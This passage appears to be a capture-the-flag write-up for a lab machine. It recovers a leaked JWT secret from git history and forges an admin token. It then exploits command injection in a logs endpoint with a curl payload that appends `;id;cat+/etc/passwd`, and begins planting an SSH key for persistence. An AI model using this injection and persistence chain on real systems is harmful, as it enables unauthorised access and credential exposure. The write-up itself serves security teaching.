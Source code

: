 ![Writeup](./images/third.png)

Using that to access `/api/priv` still is rejected, saying the token is invalid! This means the `TOKEN_SECRET` is wrong!

![Writeup](./images/fourth.png)

There was also a `.git` folder. We can look back and see the history of the source code changes. Running a `git log` on the source code, there's an interesting commit message.

> removed .env for security reasons

Interestingly enough, the `.env` file is still there. To go back in time and see what happened:

```bash
[user@parrot]~$ git diff HEAD~2
```

![Writeup](./images/fifth.png)

FINALLY! Go back to [JWT.io](http://JWT.io), change the `name`  field to `theadmin`  and paste the key within the HMAC secret. Test the newly created JWT against `/api/priv`  endpoint to ensure the bypass worked.

### Obtaining a Foothold

With an admin account in place, it’s time to leverage the `/api/logs` endpoint to gain access to the server. This is essentially a working web shell.

First, check who the user running the application is with `id`, and grab the list of users from `/etc/passwd`. The web shell endpoint allows for chaining bash commands using the`;` character. The caveat is that the `file` GET parameter needs to be URL encoded for it to be accepted in `curl`.

The full URL will be: [http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd](http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd) notice the spaces are replaced with `+`. The output is quite hard to decipher, to clean this up, pipe the output from `curl` into `sed` and replaces `\\n` with actual newline characters.

```bash
[user@parrot]~$ curl -i '\\n' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjFlMTU1MmM5ZTZlYjA0NjFjOWE1ZGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im5pa2tAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2MTM4ODYzfQ.7fwnTwm0Ze-63VU-K-fVIochFfesOjlvi6S-DTHJJek' '<http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd>' | sed 's/\\\\n/\\n/g'
```

![Writeup](./images/sixth.png)

Great news, the user running the application is a real user with a login shell. From here, it’s possible to create a reverse shell and start enumerating, but reverse shells are rough to work with. Reviewing the open ports from `nmap` again, SSH is running. I always say if you can SSH in, do it! To do this, add an SSH public key to `authorized_machines`  file of the user's home directory.

In a real engagement, don’t use your machine's main SSH key. Always generate a new one.

```bash
[user@parrot]~$ ssh-keygen -t rsa -b 4096 -C 'nikkuser@htb' -f 10.10.11.120 -P ''
```
